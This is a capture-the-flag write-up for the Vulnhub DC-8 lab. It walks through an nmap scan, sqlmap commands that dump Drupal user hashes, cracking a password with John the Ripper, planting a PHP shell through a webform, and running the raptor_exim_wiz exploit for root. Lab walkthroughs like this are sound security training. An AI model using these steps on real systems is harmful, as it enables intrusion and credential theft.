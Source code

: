 <h1>DC-8 Write-up</h1>

<h2>NMAP</h2>

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
80/tcp open  http    Apache httpd
```
<h3>PORT 80</h3>

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-8/images/URL.png)

From the details Section :

http://192.168.56.53/?nid=2

<h3>Sql Injection</h3>

**Sqlmap :**

```
sqlmap --url "http://192.168.56.53/?nid=2" --dbs
sqlmap --url "http://192.168.56.53/?nid=2" -D d7db
sqlmap --url "http://192.168.56.53/?nid=2" -D d7db -T users --dump
```
![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-8/images/sqlmap.png)

Found 2 users and the hashes of there passwords :
I am unable to crack the hash of admin user

but it took 5 sec to crack the hash of john ;) 


* john hashfile --wordlist=rockyou.txt

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-8/images/johncrack.png)

```
HASH : $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
Username : john 
Cracked HASH  : turtle
```

<h2>Droopal to Shell</h2>

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-8/images/step1shell.png)

**Click On "Webform"**

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-8/images/shellstep2.png)

**Click on "Form Settings"**

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-8/images/shellstep3.png)

**TYPE SOMETHING IN FIRST LINE THEN PASTE YOUR PHP SHELL CODE THEN SELECT TEXT FORMAT AS PHP n SAVE**

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-8/images/shellstep4.png)

**Start Listner and Submit all field**

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-8/images/wwwdatashell.png)


<h2>Privilege Escalation :</h2>

**SUID exploit**

Exploit : https://github.com/0xdea/exploits/blob/master/linux/raptor_exim_wiz

Steps :

1 ) send exploit to DC-8 Box :

2 ) chmod 777 raptor_exim_wiz

3 ) ./raptor_exim_wiz -m netcat 


![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-8/images/rootflag%20and%20privesc.png)

